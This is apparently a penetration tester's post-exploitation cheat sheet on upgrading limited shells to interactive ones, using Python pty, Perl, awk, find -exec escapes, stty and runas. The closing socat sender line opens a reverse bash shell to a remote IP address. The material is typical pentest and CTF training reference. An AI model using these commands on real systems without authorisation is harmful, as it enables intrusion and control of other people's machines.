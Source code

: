 ```yaml
---
tags:
  - Post-Exploitation
---
```

Upgrading a shell allows for command history and key bindings

# Guide

1. `cat /etc/shells` to see all the shells on the system
# Walkthrough 

1. [How to Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
2. [Upgrade Simple Shells to Fully Interactive TTYs | 0xffsec Handbook](https://0xffsec.com/handbook/shells/full-tty/)

# Windows

By using the `runas` command, you can temporarily switch to a different user account that has more permissions, such as an administrator or root account. This can give you access to additional commands and resources that may not be available with your current shell.

To upgrade your shell using the `runas` command, simply specify the user account you want to switch to and the command you want to run. For example, you could run `runas /user:administrator cmd` to open a new command prompt window with administrator privileges.

## Linux 
### stty

Press `ctrl-z`

```sh
stty raw -echo && fg
```

```
reset
```
### Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### Perl

```shell-session
perl —e 'exec "/bin/sh";'
```

### Lua

The command directly below should be run from a script.

```shell-session
lua: os.execute('/bin/sh')
```

### Ruby

The command directly below should be run from a script.

```shell-session
ruby: exec "/bin/sh"
```
### /bin/sh

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

```
/bin/sh -i
```

### AWK

```shell-session
awk 'BEGIN {system("/bin/sh")}'
```
### Bash 

#### Notes

Special Bash characters which can return some information regarding the operating system.

|**Special Character**|**Description**|
|---|---|
|`\d`|Date (Mon Feb 6)|
|`\D{%Y-%m-%d}`|Date (YYYY-MM-DD)|
|`\H`|Full hostname|
|`\j`|Number of jobs managed by the shell|
|`\n`|Newline|
|`\r`|Carriage return|
|`\s`|Name of the shell|
|`\t`|Current time 24-hour (HH:MM:SS)|
|`\T`|Current time 12-hour (HH:MM:SS)|
|`\@`|Current time|
|`\u`|Current username|
|`\w`|Full path of the current working directory|

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

```
/bin/bash -i
```

### Find 

```shell-session
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell-session
find . -exec /bin/sh \; -quit
```
### SoCat

Listener

```
sudo socat file:`tty`,raw,echo=0 tcp-listen:445
```

Sender

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.118.8:445
```